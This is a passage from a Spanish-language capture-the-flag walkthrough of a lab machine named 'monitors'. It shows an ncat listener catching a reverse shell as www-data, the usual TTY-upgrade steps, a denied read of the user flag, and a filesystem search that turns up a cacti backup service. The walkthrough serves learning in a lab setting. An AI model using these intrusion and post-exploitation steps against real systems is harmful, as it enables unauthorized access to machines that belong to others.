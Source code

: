 Recibimos la conexion como `www-data` y estamos en la maquina victima.


```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.238.
Ncat: Connection from 10.10.10.238:38574.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname -I
10.10.10.238 172.17.0.1 172.18.0.1 dead:beef::250:56ff:feb9:29a3
```

Como es de costumbre vamos a conseguir una `tty` full interactiva.

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@monitors:/usr/share/cacti/cacti$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
www-data@monitors:/usr/share/cacti/cacti$ export TERM=xterm
www-data@monitors:/usr/share/cacti/cacti$ export SHELL=bash
www-data@monitors:/usr/share/cacti/cacti$ stty rows 45 columns 184
```

Nos dirigimos al directorio personal del usuario `marcus` y vemos que aun no podemos visualizar la `flag` como `www-data`.

```bash
www-data@monitors:/home$ cd marcus/
www-data@monitors:/home/marcus$ ls
note.txt  user.txt
www-data@monitors:/home/marcus$ cat user.txt 
cat: user.txt: Permission denied
```

Como tenemos un servicio `cacti` vamos a tratar de filtrar desde la raiz archivos que contengan la palabra `cacti` y encontramos una ruta con un archivo `cacti-backup-service`.

```bash
www-data@monitors:/home/marcus$ find / -name \*cacti\* 2>/dev/null
/etc/apache2/sites-available/cacti-admin.monitors.htb.conf
/etc/apache2/sites-enabled/cacti-admin.monitors.htb.conf
/etc/systemd/system/cacti-backup.service
/lib/systemd/system/cacti-backup.service
/var/log/cacti-access.log
/var/log/cacti-error.log
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitor.htb
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitors.htb
/usr/share/cacti
/usr/share/cacti/cacti
/usr/share/cacti/cacti/log/cacti.log
/usr/share/cacti/cacti/locales/po/cacti.pot
/usr/share/cacti/cacti/scripts/cacti_user_stats.php
/usr/share/cacti/cacti/include/cacti_version
```
